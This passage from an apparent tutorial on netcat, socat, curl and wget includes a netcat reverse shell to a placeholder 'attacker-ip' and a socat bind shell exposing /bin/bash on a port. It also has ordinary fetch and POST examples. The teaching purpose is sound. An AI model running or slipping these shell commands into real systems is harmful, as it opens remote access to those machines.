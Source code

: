**Attacker (listener)**:

```bash
nc -lvp 4444
```

**Victim (reverse shell)**:

```bash
nc attacker-ip 4444 -e /bin/bash
```

> 🔍 This is how **backdoors** and **remote access** work in attacks.

---

### 🧪 Step 2: `socat` – Netcat on steroids

```bash
socat TCP-LISTEN:1234,reuseaddr,fork EXEC:/bin/bash
```

Connect from another terminal:

```bash
nc localhost 1234
```

🎯 `socat` can also forward ports or bridge between protocols.

Example: Forward local port 8000 to remote 80

```bash
socat TCP-LISTEN:8000,fork TCP:remote.com:80
```

---

### 🧪 Step 3: `curl` and `wget`

#### 🌀 curl

* Fetch a webpage:

```bash
curl http://example.com
```

* POST data:

```bash
curl -X POST -d "username=admin&password=123" http://site.com/login
```

🎯 Try sending data to a requestbin.com webhook!

#### 📥 wget

```bash
wget http://example.com/file.zip
```
